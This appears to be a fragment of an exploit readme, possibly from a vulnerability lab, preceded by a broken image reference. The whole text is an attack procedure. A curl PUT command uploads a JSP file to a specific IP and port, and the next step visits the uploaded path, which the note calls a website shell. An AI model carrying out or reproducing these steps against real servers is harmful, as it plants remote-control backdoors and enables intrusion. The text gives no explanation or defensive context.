 - curl -X PUT "http://140.115.197.136:8081/123.jsp/" -d @hi.jsp

- visit http://140.115.197.136:8081/123.jsp/ (a website shell)

- do the same as ../Readme.md
